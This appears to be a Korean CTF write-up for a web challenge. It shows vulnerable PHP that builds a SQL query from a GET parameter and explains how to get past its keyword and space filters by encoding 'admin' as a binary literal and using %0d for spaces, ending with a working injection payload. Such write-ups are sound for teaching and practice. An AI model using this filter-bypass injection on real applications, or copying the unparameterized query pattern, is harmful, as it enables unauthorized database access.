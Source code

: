 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**

![](images/2022-01-03-11-50-27.png)


# **Write-Up**

view-source를 통해 소스를 보면 여러 필터링을 통해 select의 결과가 admin이면 점수를 획득할 수 있다.

```php
... 생략 ...
<?php
  if($_GET['lv']){
    $db = dbconnect();
    $_GET['lv'] = addslashes($_GET['lv']);
    $_GET['lv'] = str_replace(" ","",$_GET['lv']);
    $_GET['lv'] = str_replace("/","",$_GET['lv']);
    $_GET['lv'] = str_replace("*","",$_GET['lv']);
    $_GET['lv'] = str_replace("%","",$_GET['lv']);
    if(preg_match("/select|0x|limit|cash/i",$_GET['lv'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select id,cash from chall46 where lv=$_GET[lv]"));
    if($result){
      echo("{$result['id']} information<br><br>money : {$result['cash']}");
      if($result['id'] == "admin") solve(46);
    }
  }
?>
... 생략 ...
```

0 혹은 5이상이면 데이터가 없는 듯 하다.

![](images/2022-01-03-11-51-27.png)

0 or id='admin'을 입력하면 id가 admin인 id와 cash를 select할 것이다.

따옴표가 addslashes에 의해 막히므로 admin을 hex값 혹은 binary치환하면 되지만 pregmatch에서 hex값이 필터링된다. 따라서 binary로 넣자.

```python
import binascii
print(bin(int(binascii.hexlify("admin".encode()),16)))

[Output]
0b110000101100100011011010110100101101110
```

공백도 필터링 되므로 %0d같은 것으로 치환하자.

    0%0dor%0did=0b110000101100100011011010110100101101110
    
![](images/2022-01-03-11-51-41.png)
